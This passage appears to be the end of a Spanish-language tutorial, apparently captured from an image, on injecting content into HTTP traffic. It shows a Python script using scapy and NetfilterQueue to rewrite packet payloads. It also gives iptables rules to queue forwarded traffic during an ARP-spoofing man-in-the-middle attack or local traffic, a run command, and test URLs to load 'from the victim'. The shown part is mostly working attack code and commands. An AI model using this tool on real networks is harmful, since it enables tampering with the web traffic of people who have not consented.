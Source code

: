 ```python

            # Recalculamos checksums y longitudes
            del scapy_pkt[IP].len
            del scapy_pkt[IP].chksum
            del scapy_pkt[TCP].chksum

            # Actualizamos el paquete
            packet.set_payload(bytes(scapy_pkt))

    packet.accept()

# Crear e iniciar la cola
nfqueue = NetfilterQueue()
nfqueue.bind(0, process_packet)

print("[*] Escuchando tráfico HTTP para inyección...")
try:
    nfqueue.run()
except KeyboardInterrupt:
    print("\n[!] Interrumpido por el usuario.")
```

---

### 🔁 Configuración de iptables

#### Si estás haciendo MITM (ej. usando ARP Spoofing):

```bash
sudo iptables -I FORWARD -p tcp --dport 80 -j NFQUEUE --queue-num 0
```

#### Si estás interceptando tráfico **local (tu propia máquina)**:

```bash
sudo iptables -I OUTPUT -p tcp --dport 80 -j NFQUEUE --queue-num 0
sudo iptables -I INPUT -p tcp --sport 80 -j NFQUEUE --queue-num 0
```

---

### ▶️ Ejecución del script

```bash
sudo python3 http_injector.py
```

Mientras el script está corriendo, accede desde la víctima (o desde la misma máquina si estás haciendo pruebas locales) a una página HTTP como:

```
http://example.com
http://testphp.vulnweb.com
```
